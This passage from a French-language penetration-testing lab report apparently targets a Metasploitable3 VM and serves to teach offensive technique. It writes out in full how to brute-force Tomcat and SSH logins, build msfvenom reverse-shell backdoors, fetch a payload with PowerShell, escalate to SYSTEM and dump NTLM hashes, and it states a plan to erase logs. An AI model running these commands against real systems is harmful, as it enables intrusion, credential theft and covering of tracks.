umountfs, umountfsys, umountsys, unix, unscd, us_admin, usbmux, user, uucp,
uucpadm, uuidd, vagrant, varnish, web, webmaster, whoopsie, www, www-data,
xpdb, xpopr, zabbix
\end{Verbatim}
        \end{example}
    \end{example}
    \item Maintenant, je vais essayer de trouver les mots de passe y correspondant. 
    \begin{example}
        Commandes utilisées:
        \begin{itemize}
            \item \texttt{\footnotesize python3 -c "print('$\backslash$n'.join('<users\_list>'.split(', '))" | tee list.txt}
            \item \texttt{\footnotesize search tomcat scanner}
            \item \texttt{\footnotesize use auxiliary/scanner/http/tomcat\_mgr\_login}
            \item \texttt{\footnotesize set RHOSTS 192.168.1.4}
            \item \texttt{\footnotesize set RPORT 8282}
            \item \texttt{\footnotesize set TARGETURI /manager/html}
            \item \texttt{\footnotesize set USER\_FILE list.txt}
            \item \texttt{\footnotesize set PASS\_FILE /usr/share/wordlists/metasploit/unix\_passwords.txt}
            \item \texttt{\footnotesize run}
        \end{itemize}
        Ça ne fonctionne pas avec ces listes mais en cherchant d'autres listes d'utilisateurs et de mots de passe, j'ai \textcolor{blue}{\textbf{réussi}} à trouver les login et mot de passe: sploit/sploit.
    \end{example}
    \item Ensuite, je vais créer une backdoor que je peux uploader sur la partie administration du site. Une fois que c'est fait, il suffit de se rendre sur la page pour que le module s'exécute et accèder à la machine.
    \begin{example}
        Commandes utilisées:
        \begin{itemize}
            \item \texttt{\footnotesize msfvenom -{}-list format}
            \item \texttt{\footnotesize search meterpreter payload java}
            \item \texttt{\footnotesize msfvenom -p java/meterpreter/reverse\_tcp -f war} \\ \texttt{\footnotesize LHOST=192.168.1.3 LPORT=4444 -o backdoor.war}
            \item \texttt{\footnotesize use multi/handler}
            \item \texttt{\footnotesize set payload java/meterpreter/reverse\_tcp}
            \item \texttt{\footnotesize set LHOST 192.168.1.3}
            \item \texttt{\footnotesize run}
        \end{itemize}
        Le résultat est un \textcolor{blue}{\textbf{succès}}. Vous pouvez voir l'upload de la backdoor sur la figure \ref{fig:uploadTomcat} et sur la figure \ref{fig:successTomcat}, l'ouverture de session.
    \end{example}
    \begin{figure}[H]
        \centering
        
\includegraphics[width=0.65\linewidth]{images/upload-backdoor-tomcat.PNG}
        \caption{Upload de la backdoor manuellement sur Tomcat}
        \label{fig:uploadTomcat}
    \end{figure}
    \begin{figure}[H]
        \centering
        
\includegraphics[width=0.95\linewidth]{images/backdoor-tomcat.PNG}
        \caption{Succès du gain de session meterpreter via Tomcat manuellement}
        \label{fig:successTomcat}
    \end{figure}
    \item Et voici une autre manière de gagner une session meterpreter avec un module metasploit.
    \begin{example}
        Commandes utilisées:
        \begin{itemize}
            \item \texttt{\footnotesize search tomcat exploit}
            \item \texttt{\footnotesize use exploits/multi/http/tomcat\_mgr\_upload}
            \item \texttt{\footnotesize set RHOSTS 192.168.1.4}
            \item \texttt{\footnotesize set RPORT 8282}
            \item \texttt{\footnotesize set HttpPassword sploit}
            \item \texttt{\footnotesize set HttpUsername sploit}
            \item \texttt{\footnotesize set LHOST 192.168.1.3}
            \item \texttt{\footnotesize run}
        \end{itemize}
        Le résultat est un \textcolor{blue}{\textbf{succès}}, comme vous pouvez le voir sur la figure \ref{fig:success2Tomcat}.
    \end{example}
    \begin{figure}[H]
        \centering
        
\includegraphics[width=0.95\linewidth]{images/backdoor-tomcat-02.PNG}
        \caption{Succès du gain de session meterpreter via Tomcat avec un module}
        \label{fig:success2Tomcat}
    \end{figure}
    \begin{figure}[H]
        \centering
        
\includegraphics[width=0.95\linewidth]{images/tomcat-problem-01.PNG}
        \caption{Problèmes avec la session meterpreter obtenue avec Tomcat}
        \label{fig:problemTomcat01}
    \end{figure}
    \item Comme vous pouvez le voir sur la figure \ref{fig:problemTomcat01}, il est impossible de voir son PID. En fait, on ne peut pas non plus obtenir les droits administrateur, ni migrer vers un autre processus. Pour ce faire, je vais créer un deuxième payload que j'uploaderai ensuite avec meterpreter et que j'exécuterai pour obtenir une deuxième session meterpreter qui me permettra de faire la post-exploitation plus tard (couvert dans la section sur la post-exploitation).
    \begin{example}
        \begin{enumerate}
            \item Commandes utilisées sur le premier terminal:
            \begin{itemize}
                \item \texttt{\footnotesize msfvenom -p windows/x64/meterpreter/reverse\_tcp -f exe} \\ \texttt{\footnotesize LHOST=192.168.1.3 LPORT=4445 -o backdoor.exe}
                \item \texttt{\footnotesize use multi/handler}
                \item \texttt{\footnotesize set payload java/meterpreter/reverse\_tcp}
                \item \texttt{\footnotesize set LHOST 192.168.1.3}
                \item \texttt{\footnotesize set LPORT 4444}
                \item \texttt{\footnotesize run}
                \item \texttt{\footnotesize upload backdoor.exe}
                \item \texttt{\footnotesize execute backdoor.exe}
            \end{itemize}
            \item Commandes utilisées sur le deuxième terminal:
            \begin{itemize}
                \item \texttt{\footnotesize use multi/handler}
                \item \texttt{\footnotesize set payload windows/x64/meterpreter/reverse\_tcp}
                \item \texttt{\footnotesize set LHOST 192.168.1.3}
                \item \texttt{\footnotesize set LPORT 4445}
                \item \texttt{\footnotesize run}
            \end{itemize}
        \end{enumerate}
        Ainsi, j'ai \textcolor{blue}{\textbf{réussi}} à ouvrir une session meterpreter complète, c'est-à-dire où on peut voir le PID, migrer le processus, etc. comme vous pouvez le voir sur la figure \ref{fig:backdoorTomcat03}.
    \end{example}
    \begin{figure}[H]
        \centering
        
\includegraphics[width=0.95\linewidth]{images/backdoor-tomcat-03.PNG}
        \caption{Obtention d'une session meterpreter où on peut voir le PID, escalader ses privilèges, et migrer le processus avec Tomcat}
        \label{fig:backdoorTomcat03}
    \end{figure}
\end{enumerate}
\textbf{Remarque}: je couvre le maintien de session plus en détail dans la section sur la post-exploitation.





\newpage \subsubsection{Windows Server - SSH}





\begin{enumerate}
    \item Pour démarrer, je vais lancer un petit scanner qui cherche les utilisateurs du système.
    \begin{example}
        Commandes utilisées:
        \begin{itemize}
            \item \texttt{\footnotesize search openssh}
            \item \texttt{\footnotesize use auxiliary/scanner/ssh/ssh\_enumusers}
            \item \texttt{\footnotesize set RHOSTS 192.168.1.4}
            \item \texttt{\footnotesize set USER\_FILE /usr/share/wordlists/metasploit/unix\_users.txt}
            \item \texttt{\footnotesize run}
        \end{itemize}
        Le résultat est \textcolor{blue}{\textbf{positif}}. On a trouvé 2 comptes ssh.
        \begin{example}
\begin{Verbatim}[fontsize=\footnotesize]
[*] 192.168.1.4:22 - SSH - Using malformed packet technique
[*] 192.168.1.4:22 - SSH - Starting scan
[+] 192.168.1.4:22 - SSH - User 'sshd' found
[+] 192.168.1.4:22 - SSH - User 'vagrant' found
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
\end{Verbatim}
        \end{example}
    \end{example}
    \item Maintenant, il faut chercher les mots de passe correspondant à ces logins.
    \begin{example}
        Commandes utilisées:
        \begin{itemize}
            \item \texttt{\footnotesize search ssh scanner}
            \item \texttt{\footnotesize use auxiliary/scanner/ssh/ssh\_login}
            \item \texttt{\footnotesize set RHOSTS 192.168.1.4}
            \item \texttt{\footnotesize set USERNAME vagrant}
            \item \texttt{\footnotesize set PASS\_FILE /usr/share/wordlists/metasploit/unix\_passwords.txt}
            \item \texttt{\footnotesize run}
        \end{itemize}
        Le résultat est un \textcolor{blue}{\textbf{succès}} (figure \ref{fig:sshLoginScanner}). Le mot de passe de vagrant a été trouvé, c'est: vagrant. De plus, ça a créé une session de type: shell windows.
    \end{example}
    \begin{figure}[H]
        \centering
        
\includegraphics[width=0.95\linewidth]{images/ssh-login-scanner.PNG}
        \caption{Succès du scanner de login SSH}
        \label{fig:sshLoginScanner}
    \end{figure}
    \item On a accès à une session shell mais il faudrait que j'aie une session meterpreter pour pouvoir obtenir élever mes privilèges ou migrer le processus. Pour cela, je vais utiliser un module en dehors de meterpreter.
    \begin{example}
        Commandes utilisées:
        \begin{itemize}
            \item \texttt{\footnotesize search shell\_to\_meterpreter}
            \item \texttt{\footnotesize use post/multi/manage/shell\_to\_meterpreter}
            \item \texttt{\footnotesize sessions}
            \item \texttt{\footnotesize set SESSION 1}
            \item \texttt{\footnotesize set LHOST 192.168.1.3}
            \item \texttt{\footnotesize set LPORT 4444}
            \item \texttt{\footnotesize run}
        \end{itemize}
        Bizarrement, ça \textcolor{red}{\textbf{ne fonctionne pas}}.
    \end{example}
    \item Je vais aussi essayer de transformer la session shell en session meterpreter avec la commande \texttt{\footnotesize sessions} dans msfconsole.
    \begin{example}
        Commandes utilisées:
        \begin{itemize}
            \item \texttt{\footnotesize sessions}
            \item \texttt{\footnotesize session -u 1}
            \item \texttt{\footnotesize run}
        \end{itemize}
        Ça \textcolor{red}{\textbf{ne fonctionne pas}} non plus comme vous pouvez le voir sur la figure \ref{fig:failShellToMeterpreter}.
    \end{example}
    \begin{figure}[H]
        \centering
        
\includegraphics[width=0.95\linewidth]{images/fail-shell-to-meterpreter.PNG}
        \caption{Échec de changement de session de shell à meterpreter}
        \label{fig:failShellToMeterpreter}
    \end{figure}
    \item Aux grand maux les grands remèdes. Pour passer à une session meterpreter, je vais créer une backdoor que je téléchargerai depuis la cible grâce à la connection ssh.
    \begin{example}
        \begin{enumerate}
            \item Commandes utilisées sur le premier terminal:
            \begin{itemize}
                \item \texttt{\footnotesize sessions 8}
                \item \texttt{\footnotesize powershell Invoke-RestMethod http://192.168.1.3/backdoor.exe} \\ \texttt{\footnotesize -OutFile backdoor.exe}
                \item \texttt{\footnotesize ./backdoor.exe}
            \end{itemize}
            \item Commandes utilisées sur le deuxième terminal:
            \begin{itemize}
                \item \texttt{\footnotesize msfvenom -p windows/x64/meterpreter/reverse\_tcp -f exe} \\ \texttt{\footnotesize LHOST=192.168.1.3 LPORT=4444 -o backdoor.exe}
                \item \texttt{\footnotesize sudo python3 -m http.server 80}
            \end{itemize}
            \item Commandes utilisées sur le troisième terminal:
            \begin{itemize}
                \item \texttt{\footnotesize use multi/handler}
                \item \texttt{\footnotesize set payload windows/x64/meterpreter/reverse\_tcp}
                \item \texttt{\footnotesize set LHOST 192.168.1.3}
                \item \texttt{\footnotesize set LPORT 4444}
                \item \texttt{\footnotesize run}
            \end{itemize}
        \end{enumerate}
        Et enfin, j'ai \textcolor{blue}{\textbf{réussi}} à établir une session meterpreter (voir figure \ref{fig:successSSH}) !
    \end{example}
    \begin{figure}[H]
        \centering
        
\includegraphics[width=0.95\linewidth]{images/success-ssh.PNG}
        \caption{Création d'une session meterpreter avec le service SSH}
        \label{fig:successSSH}
    \end{figure}
\end{enumerate}
\textbf{Remarque}: je couvre le maintien de session plus en détail dans la section sur la post-exploitation.










\newpage \subsection{Post-exploitation: élever ses privilèges, maintenir l'accès, récupérer des informations, et recouvrir les traces}





Maintenant que j'ai un accès à la machine, on rentre dans la phase de post-exploitation de ce projet.
\begin{itemize}
    \item Le premier objectif est d'élever nos privilèges, c'est-à-dire obtenir des accès administrateur.
    \item Après, je vais récupérer des informations sur le système comme des informations sur le système, des listes d'utilisateurs, etc.
    \item Ensuite, il faut aussi prendre des mesures pour maintenir l'accès au serveur.
    \item Finalement, je vais recouvrir les traces en effaçant les logs et les fichiers/dossiers créés pendant la phase d'exploitation.
\end{itemize}

La phase de post-exploitation peut évidemment se passer dans n'importe quelle des sessions meterpreter ouvertes lors de la phase d'exploitation.





\subsubsection{Élévation de privilèges}






Commandes utilisées:
\begin{itemize}
    \item \texttt{\footnotesize help}
    \item \texttt{\footnotesize getsystem}
    \begin{example}
\begin{Verbatim}[fontsize=\footnotesize]
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
\end{Verbatim}
    \end{example}
\end{itemize}





\subsubsection{Récupération des informations sur le système}


Commandes utilisées:
\begin{itemize}
    \item \texttt{\footnotesize hashdump}
    \begin{example}
\begin{Verbatim}[fontsize=\footnotesize]
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
anakin_skywalker:1011:aad3b435b51404eeaad3b435b51404ee:c706f83a7b17a0230e55cde2f3de94fa:::
artoo_detoo:1007:aad3b435b51404eeaad3b435b51404ee:fac6aada8b7afc418b3afea63b7577b4:::
ben_kenobi:1009:aad3b435b51404eeaad3b435b51404ee:4fb77d816bce7aeee80d7c2e5e55c859:::
boba_fett:1014:aad3b435b51404eeaad3b435b51404ee:d60f9a4859da4feadaf160e97d200dc9:::
chewbacca:1017:aad3b435b51404eeaad3b435b51404ee:e7200536327ee731c7fe136af4575ed8:::
c_three_pio:1008:aad3b435b51404eeaad3b435b51404ee:0fd2eb40c4aa690171ba066c037397ee:::
darth_vader:1010:aad3b435b51404eeaad3b435b51404ee:b73a851f8ecff7acafbaa4a806aea3e0:::
etu43813:1019:aad3b435b51404eeaad3b435b51404ee:944f97c19a6d1d3b51a073b1746df642:::
greedo:1016:aad3b435b51404eeaad3b435b51404ee:ce269c6b7d9e2f1522b44686b49082db:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
han_solo:1006:aad3b435b51404eeaad3b435b51404ee:33ed98c5969d05a7c15c25c99e3ef951:::
jabba_hutt:1015:aad3b435b51404eeaad3b435b51404ee:93ec4eaa63d63565f37fe7f28d99ce76:::
jarjar_binks:1012:aad3b435b51404eeaad3b435b51404ee:ec1dcd52077e75aef4a1930b0917c4d4:::
kylo_ren:1018:aad3b435b51404eeaad3b435b51404ee:74c0a3dd06613d3240331e94ae18b001:::
lando_calrissian:1013:aad3b435b51404eeaad3b435b51404ee:62708455898f2d7db11cfb670042a53f:::
leia_organa:1004:aad3b435b51404eeaad3b435b51404ee:8ae6a810ce203621cf9cfa6f21f14028:::
luke_skywalker:1005:aad3b435b51404eeaad3b435b51404ee:481e6150bde6998ed22b0e9bac82005a:::
sshd:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
sshd_server:1002:aad3b435b51404eeaad3b435b51404ee:8d0a16cfc061c3359db455d00ec27035:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
\end{Verbatim}
    \end{example}
    \item \texttt{\footnotesize getuid}
    \begin{example}
\begin{Verbatim}[fontsize=\footnotesize]
Server username: NT AUTHORITY\SYSTEM
\end{Verbatim}
    \end{example}
    \item \texttt{\footnotesize getpid}
    \begin{example}
\begin{Verbatim}[fontsize=\footnotesize]
Current pid: 460
\end{Verbatim}
    \end{example}
    \item \texttt{\footnotesize ps}
    \begin{example}
        Résultat sur la figure \ref{fig:postPs}.
    \end{example}
    \item \texttt{\footnotesize guid}
    \begin{example}
\begin{Verbatim}[fontsize=\footnotesize]
[+] Session GUID: 38f58d74-ba5e-46a9-aa3f-b49ec7b25595
\end{Verbatim}
    \end{example}
    \item \texttt{\footnotesize enumdesktops}
    \begin{example}
\begin{Verbatim}[fontsize=\footnotesize]
Enumerating all accessible desktops

Desktops
========

Session  Station  Name
-------  -------  ----
0        WinSta0  Default
0        WinSta0  Disconnect
0        WinSta0  Winlogon
\end{Verbatim}
    \end{example}
    \item \texttt{\footnotesize getdesktop}
    \begin{example}
\begin{Verbatim}[fontsize=\footnotesize]
Session 0\S\D
\end{Verbatim}
    \end{example}
    \item \texttt{\footnotesize sysinfo}
    \begin{example}
\begin{Verbatim}[fontsize=\footnotesize]
Computer        : METASPLOITABLE3
OS              : Windows 2008 R2 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
\end{Verbatim}
    \end{example}
    \item \texttt{\footnotesize background}
    \item \texttt{\footnotesize search windows post}
    \item \texttt{\footnotesize use post/windows/gather/checkvm}
    \item \texttt{\footnotesize sessions}
    \item \texttt{\footnotesize set sessions 2}
    \item \texttt{\footnotesize run}
    \begin{example}
\begin{Verbatim}[fontsize=\footnotesize]
[*] Checking if METASPLOITABLE3 is a Virtual Machine ...
[+] This is a VirtualBox Virtual Machine
[*] Post module execution completed
\end{Verbatim}
    \end{example}
    \item \texttt{\footnotesize use post/windows/gather/enum\_snmp}
    \item \texttt{\footnotesize set session 2}
    \item \texttt{\footnotesize run}
    \begin{example}
\begin{Verbatim}[fontsize=\footnotesize]
[*] Running module against METASPLOITABLE3
[*] Checking if SNMP is Installed
[*]     SNMP is installed!
[*] Enumerating community strings
[*] 
[*]     Community Strings
[*]     =================
[*] 
[*]      Name    Type
[*]      ----    ----
[*]      public  READ ONLY
[*] 
[*] Enumerating Permitted Managers for Community Strings
[*]     Community Strings can be accessed from any host
[*] Enumerating Trap Configuration
[*] No Traps are configured
[*] Post module execution completed
\end{Verbatim}
    \end{example}
    \item \texttt{\footnotesize use post/windows/gather/enum\_shares}
    \item \texttt{\footnotesize set session 2}
    \item \texttt{\footnotesize run}
    \begin{example}
\begin{Verbatim}[fontsize=\footnotesize]
[*] Running against session 2
[*] No shares were found
[*] Post module execution completed    
\end{Verbatim}
    \end{example}
    \item \texttt{\footnotesize use post/windows/gather/enum\_db}
    \item \texttt{\footnotesize set session 2}
    \item \texttt{\footnotesize run}
    \begin{example}
\begin{Verbatim}[fontsize=\footnotesize]
[*] Enumerating Databases on METASPLOITABLE3
[*] Done, No Databases were found
[*] Post module execution completed
\end{Verbatim}
    \end{example}
\end{itemize}

\begin{figure}[H]
    \centering
